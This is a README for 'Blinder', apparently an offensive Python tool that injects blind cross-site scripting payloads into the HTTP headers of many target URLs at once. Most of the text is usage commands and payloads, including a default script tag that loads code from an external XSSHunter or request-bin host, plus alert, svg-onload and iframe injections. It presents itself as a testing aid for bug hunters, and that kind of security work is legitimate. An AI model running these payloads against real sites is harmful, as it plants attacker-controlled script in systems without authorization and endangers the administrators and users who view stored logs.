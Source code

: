 # Blinder
- A script written in python3 to spread blind cross-site scripting payloads on HTTP requests headers

## Description
- Blinder is an automation tools written in python3, used to spread sending blind payloads into HTTP servers using XSShunter or custom requests bin, with custom payloads so you can test for more issues like SSTI, CSTI and XSS

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

# How To Use:
## Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

## Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -r deny
```
## Payloads and multi payloads.
- In blinder, the default payload we use is `"><script src={xsshunter-url}></script>`, But you can always use your own payload using `-p` argument.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```

- If you wanna use more than one payload, you can seperate them using `,` character for example: `"><script>alert(1)</script>,"><svg/onload=alert(1)>`, if your payload requires `,` character and you can't seperate them using that character you can use `-s` option to use another character to-do that

```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

- By default, Blinder uses `XXX` as string to replace with the XSShunter/requestbin URL, incase that can't be used with your payload and your payload contains `XSS` inside of it, you can always use `--replace` argument to use another string to replace it with 

```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

## Headers
- By default, Blinder sends the payloads on the `User-agent` header because it's more likely to get stored on web application by requests logs and other stuff, you can use your custom header in case you're testing for a known vulnerability, CVE or anything else

```bash
python3 Blinder.py -u xsshunter -f urls-file.txt --header Header-name 
```

## Requests bin
- You can use your own requests bin, burpcollabrator, interactsh or anything else using `-b` argument

```bash
python3 Blinder.py -b https://request-bin.com/ -f urls-file.txt
```

### What's New?
- Threading to improve the tool performance.
- Added an option allows you to use your own requests bin instead of using XSShunter.
- Added an option where you can use your own payloads instead of the default one.
- Added an option to enable/disable redirects on requests
- Added an option where you can use more than one payload, and choose the splitting character
- Added an option allows you to use your own custom headers on HTTP requests
- Added an option allows you to select your own replace word on the payload
- Cleaner Code!

### Issues:
- Feel free to open an issue on github issue tracker, I usually respond to such stuff quickly
- If you need help, you can always find me [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
